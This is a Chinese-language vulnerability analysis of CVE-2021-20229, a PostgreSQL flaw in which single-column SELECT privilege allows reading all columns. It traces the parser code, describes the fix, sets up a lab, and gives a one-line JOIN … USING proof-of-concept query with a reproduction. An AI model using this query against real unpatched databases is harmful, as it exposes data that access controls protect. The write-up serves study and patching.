



# CVE-2021-20229 CWE-863 PostgreSQL 权限绕过

## 漏洞背景

- **Range Table Entry（RTE）：**在PostgreSQL中，Range Table Entry（RTE） 是查询解析阶段的一个核心数据结构，用于表示查询中涉及的表或子查询。每个RTE对应查询中的一个表、视图、子查询或连接操作，并存储了该表的元信息（如表名、别名、表的OID等）和访问权限要求。RTE是查询执行计划构建和权限检查的基础。
- **selectedCols：** PostgreSQL 中 `RangeTblEntry` 结构体的一个成员，用于记录当前查询中请求访问的列。它是一个位图集合（Bitmapset），每访问一列，就将对应的列号加入其中。解析阶段会对用户请求读取的每一列进行“打标”，填入 `selectedCols`，执行阶段再依据这些标记，结合权限系统检查用户是否有权限访问这些列。它是实现列级访问控制的核心机制之一。
- **打标：** PostgreSQL 在查询解析阶段用于权限控制的关键过程，指的是在用户请求访问某个表的某些列时，将这些列的位置编号记录在对应表的 `RangeTblEntry` 的 `selectedCols` 位图中，作为后续执行阶段权限检查的依据。这个过程确保了系统能够精确判断用户实际访问了哪些列，从而进行列级权限控制。

## 漏洞原理

在 PostgreSQL 中，当处理涉及连接（join）的查询时，`scanNSItemForColumn`、`expandNSItemAttrs` 和 `ExpandSingleTable` 这些函数在调用 `markVarForSelectPriv` 时，会传递错误的范围表项（Range Table Entry，RTE）。它们传递了连接后的表的 RTE，而不是提供连接列的基础表的 RTE。这导致基础表的 `selectedCols` 位图没有被正确填充，使得查询中读取的列集合被低估。攻击者可以利用这个漏洞，通过精心构造的查询，在只具有表的一个列的 SELECT 权限时，却能够读取表的所有列。

**CWE-863 不正确授权 --> 权限绕过**

**需要对一个表的某个列具有访问权限，但无法访问其他列，漏洞利用后可以得到无权访问列的内容**

## 漏洞定位

对 postgresql-13.1 源码分析

1. 在 src\backend\parser\analyze.c 文件，第 1190 行`transformSelectStmt`函数用于处理`SELECT`语句，在第 1221 行调用 `transformFromClause`来处理`FROM`语句，第 1224 行调用`transformTargetList`函数来处理 `SELECT *` 。

   ```c
   static Query *
   transformSelectStmt(ParseState *pstate, SelectStmt *stmt)
   {
   	/* process the FROM clause */
   	transformFromClause(pstate, stmt->fromClause);
       /* transform targetlist */
   	qry->targetList = transformTargetList(pstate, stmt->targetList,
   										  EXPR_KIND_SELECT_TARGET);
   }
   ```

   在 `src/include/parser/parse_node.h`第 176 行定义了`ParseState`结构体

   ```c
   struct ParseState
   {
       struct ParseState *parentParseState;  // 嵌套查询中的父上下文
   
       List *p_sourcetext;      // 原始 SQL 文本
       List *p_rtable;          // 当前作用域下的 range table（RTE 列表）
       List *p_joinlist;        // join 结构列表
       List *p_namespace;       // 当前命名空间（用于 * 展开）
       List *p_target_nslist;   // 用于 UPDATE/INSERT target 解析的范围
       ParseExprKind p_expr_kind;
   
       Index p_next_resno;      // 当前 TargetEntry 的 resno 编号
       // ... ...
   };
   ```

2. 在 src\backend\parser\parse_clause.c 文件，第 114 行，`transformFromClause`函数用于处理 SQL 查询中的 FROM 子句，并将项添加到查询的范围表（range table）、连接列表（joinlist）和命名空间（namespace）。遍历`frmList`中的每个节点，其中第 133 行，对每个节点调用了`transformFromClauseItem`函数处理，跟踪该函数。

   ```c
   // parse_clause.c --114
   /*
    * transformFromClause -
    *	  Process the FROM clause and add items to the query's range table,
    *	  joinlist, and namespace.
    *
    * Note: we assume that the pstate's p_rtable, p_joinlist, and p_namespace
    * lists were initialized to NIL when the pstate was created.
    * We will add onto any entries already present --- this is needed for rule
    * processing, as well as for UPDATE and DELETE.
    */
   void transformFromClause(ParseState *pstate, List *frmList)
   {
       foreach(fl, frmList)
       {
           Node *n = lfirst(fl);
           ParseNamespaceItem *nsitem;
           List *namespace;
   
           n = transformFromClauseItem(pstate, n, &nsitem, &namespace);
           checkNameSpaceConflicts(pstate, pstate->p_namespace, namespace);
           pstate->p_joinlist = lappend(pstate->p_joinlist, n);
           pstate->p_namespace = list_concat(pstate->p_namespace, namespace);
       }
   }
   ```

   在第 1054 行，负责处理`FROM`子句中的各个项，包括表引用、子查询、函数调用和连接表达式（`JoinExpr`）。其中第 1142 行用于处理`JOIN`语句，处理完`JOIN`的左右表之后，在第 1457 行，解析`USING`子句，第 1457 行使用了 `addRangeTableEntryForJoin` 函数处理，跟踪该函数。

   ```c
   static Node *transformFromClauseItem(ParseState *pstate, Node *n,ParseNamespaceItem **top_nsitem,List **namespace)
   {
       // ...
       // parse_clause.c --1142行
       else if (IsA(n, JoinExpr))
           {
               /* 处理左表 --1170行 */
               j->larg = transformFromClauseItem(pstate, j->larg, &l_nsitem, &l_namespace);
               /* 处理右表 --1193行 */
               j->rarg = transformFromClauseItem(pstate, j->rarg, &r_nsitem, &r_namespace);
   
               /* 解析和转换USING子句 --1193行 
                * 匹配左右两侧的列名，并生成合并后的列信息
                * 合并后的列信息用于构建新的RangeTblEntry（RTE）
                */
               if (j->usingClause)
               {
               // 1457行
               // 为 JOIN 操作的结果构建一个 RangeTblEntry（RTE）和对应的命名空间项（nsitem）
               nsitem = addRangeTableEntryForJoin(pstate,res_colnames,res_nscolumns,j->jointype,list_length(j->usingClause),res_colvars,l_colnos,r_colnos, j->alias,true);
   
               j->rtindex = nsitem->p_rtindex;
   
               *top_nsitem = nsitem;
               *namespace = lappend(my_namespace, nsitem);
   
               return (Node *) j;
           }
           // ...
   }
   ```

   在src\backend\parser\parse_relation.c文件，第 2100 行， `addRangeTableEntryForJoin` 函数，第2128行为 SQL 中的 JOIN 操作创建一个 JOIN 类型的 RangeTblEntry（RTE），**第2157行，将 `requiredPerms` 标记为 `0`（表示没有权限要求），`selectedCols`初始化为空表明应由解析阶段对真实基表进行权限标记（打标），即 JOIN 后的结果表（别名）本身并不直接参与权限控制。但是对于 JOIN，selectedCols 应该只标记在“真实表”（即基表 RTE_RELATION 类型）上，而不是 JOIN 别名表上（RTE_ JOIN 类型）。后续误把 JOIN 后的表的 rte 当作目标 RTE 来打 selectedCols。**第 2169 行将构造好的 `RangeTblEntry`（类型为 `RTE_JOIN`）加入了当前解析状态的。该函数返回了`JOIN`后的表的别名`nsitem`，注意这里 **nsitem->p_rte = rte**。

   ```c
   // parse_relation.c 2100行
   ParseNamespaceItem *
   addRangeTableEntryForJoin(ParseState *pstate, List *colnames, ParseNamespaceColumn *nscolumns, JoinType jointype, int nummergedcols, List *aliasvars, List *leftcols, List *rightcols, Alias *alias, bool inFromCl)
   {
       // 2128行
   	rte->rtekind = RTE_JOIN;
       // 2157行，关键点
       rte->requiredPerms = 0;
   	rte->checkAsUser = InvalidOid;
   	rte->selectedCols = NULL;
   	// 2169行
   	pstate->p_rtable = lappend(pstate->p_rtable, rte);
   
   	// 2175行
   	nsitem = (ParseNamespaceItem *) palloc(sizeof(ParseNamespaceItem));
       // 注意这里 nsitem->p_rte = rte
   	nsitem->p_rte = rte;
   	nsitem->p_rtindex = list_length(pstate->p_rtable);
   	nsitem->p_nscolumns = nscolumns;
   
   	return nsitem;
   }
   ```

3. 回到第一步分析`transformTargetList`函数处理`*`号，在 src\backend\parser\parse_target.c 文件，第 133 行`transformTargetList`函数，其中第 164 行，当遇见`something.*`时（SELECT * 即 SELECT j.*）,会调用`ExpandColumnRefStar`函数展开为具体的列列表，返回多个目标项，跟踪该函数。

   ```c
   List *transformTargetList(ParseState *pstate, List *targetlist,ParseExprKind exprKind)
   {
       // ... ...
       // parse_target.c  164行
       if (IsA(res->val, ColumnRef))
       {
           ColumnRef *cref = (ColumnRef *) res->val;
           if (IsA(llast(cref->fields), A_Star))
           {
               // 例如：SELECT a.*
               p_target = list_concat(p_target,
                   ExpandColumnRefStar(pstate, cref, true));
               continue;
           }
       }
       // ... ...
   }
   ```

   在当前文件 1089 行，`ExpandColumnRefStar` 函数用于处理类似 `foo.*` 的列引用，将其展开成一个列表。其中第 1106 行，当 `foo.*` 中的字段数为1时（即只有 `*`），会调用`ExpandAllTables`函数

   展开所有表中的列，跟踪该函数。

   ```c
   static List *ExpandColumnRefStar(ParseState *pstate, ColumnRef *cref,bool make_target_entry)
   {
       // ...
       // parse_target.c 1106行
       if (numnames == 1)
       {
           /*
            * Target item is a bare '*', expand all tables
            *
            * (e.g., SELECT * FROM emp, dept)
            *
            * Since the grammar only accepts bare '*' at top level of SELECT, we
            * need not handle the make_target_entry==false case here.
            */
           Assert(make_target_entry);
           return ExpandAllTables(pstate, cref->location);
       }
       // ...
   }
   ```

   第 1262 行，`ExpandAllTables` 函数用于将 `SELECT` 查询目标列表中的 `*` 展开成所有可见表的列。它生成目标项（`TargetEntry`），并标记引用的列需要 `SELECT` 权限。它是 `ExpandColumnRefStar` 函数的辅助函数，用于处理 `*` 的情况。这里调用了`expandNSItemAttrs`函数将某个表/别名对应的所有列展开为表达式，并打标记。这一步是 **真正触发权限打标（selectedCols）** 的地方，`nsitem` 来自之前 `addRangeTableEntryForJoin()` 注册的 JOIN 表别名，`nsitem->p_rte` 就是类型为 `RTE_JOIN` 的 RTE。跟踪该函数。

   ```c
   static List *ExpandAllTables(ParseState *pstate, int location)
   {
       // ...
       // parse_target.c 1280行
       target = list_concat(target, expandNSItemAttrs(pstate, nsitem, 0, location));
       // ...
   }
   ```

   在 src\backend\parser\parse_relation.c 文件，第 3019 行`expandNSItemAttrs`函数，其中第 3051 行调用`markVarForSelectPriv`函数对表的每列进行打标。**这里传入的 rte 是 nsitem->p_rte，即 JOIN alias。**跟踪该函数。

   ```c
   expandNSItemAttrs(ParseState *pstate, ParseNamespaceItem *nsitem,
   				  int sublevels_up, int location)
   {
   	RangeTblEntry *rte = nsitem->p_rte;
   	List	   *names,
   			   *vars;
   	ListCell   *name,
   			   *var;
   	List	   *te_list = NIL;
   
       // 从 nsitem 中提取所有“可展开”的列
   	vars = expandNSItemVars(nsitem, sublevels_up, location, &names);
   
   	/*
   	 * Require read access to the table.  This is normally redundant with the
   	 * markVarForSelectPriv calls below, but not if the table has zero
   	 * columns.
   	 */
   	rte->requiredPerms |= ACL_SELECT;
   
   	forboth(name, names, var, vars)
   	{
   		char	   *label = strVal(lfirst(name));
   		Var		   *varnode = (Var *) lfirst(var);
   		TargetEntry *te;
   
   		te = makeTargetEntry((Expr *) varnode,(AttrNumber) pstate->p_next_resno++,label,false);
   		te_list = lappend(te_list, te);
   
   		/* Require read access to each column */
   		markVarForSelectPriv(pstate, varnode, rte);
   	}
   
   	Assert(name == NULL && var == NULL);	/* lists not the same length? */
   
   	return te_list;
   }
   ```

   第 1084 行，`markVarForSelectPriv`函数调用了`markRTEForSelectPriv`函数，但由于在 `markVarForSelectPriv` 函数中，传递给 `markRTEForSelectPriv` 的 `rte` 是 `JOIN` 别名表的 `RangeTblEntry`（`RTE_JOIN` 类型），而不是实际的基表。因此，权限标记错误地被打到了 `JOIN` 别名上，而不是实际的基表。**这是漏洞的触发点**。

   ```c
   /*
    * markVarForSelectPriv
    *	   Mark the RTE referenced by a Var as requiring SELECT privilege
    */
   void
   markVarForSelectPriv(ParseState *pstate, Var *var, RangeTblEntry *rte)
   {
   	Index		lv;
   
   	Assert(IsA(var, Var));
   	/* Find the appropriate pstate if it's an uplevel Var */
   	for (lv = 0; lv < var->varlevelsup; lv++)
   		pstate = pstate->parentParseState;
       // 触发点
   	markRTEForSelectPriv(pstate, rte, var->varno, var->varattno);
   }
   ```

## 漏洞修复

将 `markRTEForSelectPriv` 改为只根据传入的 `rtindex` 从 `pstate->p_rtable` 中获取正确的 RTE，忽略调用者传递的 RTE；同时在 `expandNSItemAttrs` 和 `ExpandSingleTable` 中，只有当 RTE 真正代表基表（`rtekind == RTE_RELATION`）时才加 `ACL_SELECT` 标志。

```c
static void markRTEForSelectPriv(ParseState *pstate, int rtindex, AttrNumber col)
```

这就杜绝了 alias 被误打标记的可能。

## 影响版本

PostgreSQL 在版本 13.2 之前、12.6 之前、11.11 之前、10.16 之前、9.6.21 之前和 9.5.25 之前

## 环境搭建

启动 docker，postgres 版本为 13.1



其中，容器初始化脚本如下，`limit_user`用户只能访问`test_tb`表中的`public_info`列，而无法访问`secret_info`列。

```sql
-- 初始化数据库和表结构
CREATE USER limit_user WITH PASSWORD 'userpwd';

CREATE TABLE test_tb (
  id SERIAL PRIMARY KEY,
  secret_info TEXT,
  public_info TEXT
);

INSERT INTO test_tb (secret_info, public_info)
VALUES
  ('secret_data_1', 'public_data_1'),
  ('secret_data_2', 'public_data_2');

-- 只给 limit_user 用户授予 public_info 的 SELECT 权限
GRANT SELECT (public_info) ON test_tb TO limit_user;
```

## 漏洞复现

1、使用`limit_user`账号登录`postgres`数据库

```bash
psql -h localhost -p 5432 -U limit_user -d postgres
```

2、查看`test_db`表中`public_info`列的数据，成功返回结果

```
SELECT public_info FROM test_tb;
```

3、查看`test_db`表中`secret_info`列的数据，报错权限不够，查看整个`test_db`表也会报错，表明 `limit_user`用户没有对`secret_info`列的权限

```bash
SELECT secret_info FROM test_tb;
SELECT * FROM test_tb;
```

4、执行 poc 代码，尝试将两个`secret_table`表的连接起来并查询连接后的表中所有列。这个查询将`secret_table`别名为`a`和`b`，并使用`public_info`列进行连接，得到的表命名为`j`。可以看到返回了`j`表中的所有数据，包括没有权限的`secret_info`列

```sql
SELECT * FROM (test_tb a JOIN test_tb b USING (public_info)) j;
```



## POC分析

表 `test_tb` 进行自连接，并使用 `USING` 子句指定连接条件为 `public_info` 列，最后将连接的结果集命名为 `j`。查询 `test_tb` 表的连接结果，即查询`j`中的所有信息。

```sql
SELECT * FROM (test_tb a JOIN test_tb b USING (public_info)) j;
```

解析 `j.*` 时，调用 `expandNSItemAttrs` ，它们会把整个 JOIN 子查询当作一个新的 RTE（即别名 RTE “j”）来标记。在对每一列调用 `markVarForSelectPriv` 时，传给它的 RTE 指针恰好是这个别名 RTE，而不是原始`test_db`的`RTE`。`markRTEForSelectPriv`直接在传入的 RTE 上设置了 `selectedCols`，因此`j`这张新表的所有列都被标记为“已授权”。执行阶段只看这个别名`RTE`的 `selectedCols`，发现所有列都有权限，就放行了对 `j.secret_text` 的访问，忽略了用户对原表中 `secret_text` 列的缺乏权限。

## EXP分析

运行 EXP 文件，输入相关信息：数据库IP和端口，受限的数据库用户名和密码、数据库名和表名、有权访问的列名，之后会获得表中的所有数据。



## 参考链接

[PostgreSQL 中的错误授权 · CVE-2021-20229 · GitHub 安全公告数据库 --- Incorrect Authorization in PostgreSQL · CVE-2021-20229 · GitHub Advisory Database](https://github.com/advisories/GHSA-43rr-wcj9-h45w)

[git.postgresql.org Git - postgresql.git/commitdiff](https://git.postgresql.org/gitweb/?p=postgresql.git&a=commitdiff&h=c028faf2a)

[PostgreSQL：CVE-2021-20229：单列 SELECT 权限可读取所有列 --- PostgreSQL: CVE-2021-20229: Single-column SELECT privilege enables reading all columns](https://www.postgresql.org/support/security/CVE-2021-20229/)
